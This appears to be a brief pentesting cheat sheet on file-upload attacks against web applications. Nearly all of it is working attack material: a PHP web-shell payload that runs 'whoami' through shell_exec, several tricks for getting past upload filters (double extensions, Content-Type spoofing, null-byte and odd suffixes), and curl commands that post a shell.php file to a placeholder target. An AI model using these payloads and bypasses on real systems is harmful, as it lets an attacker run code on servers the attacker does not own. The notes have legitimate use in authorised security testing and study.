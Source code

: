 - Payload:
  - Test if the code was executed
    ```php
    <?php echo "UPLOAD_OK"; ?>
    ```
  - If executed,
    ```php
    <?php echo shell_exec('whoami'); ?>
    ```
- Bypass techniques:
  - Change `shell.php` to `shell.php.jpg`
  - Content-Type spoofing: `curl -F "file=@shell.php;type=image/jpeg"`
  > Change "file" if needed
  - NULL BYTE and Weird suffixes: `shell.php;.jpg`, `shell.php%20`, `shell.php%00.jpg`
- curl example:
  ```bash
  curl -i -X POST -F "file=@shell.php;type=application/x-php" https://target/upload
  curl -i -X POST -F "file=@shell.php;type=image/jpeg" https://target/upload
  # Change "file" if needed.
  ```
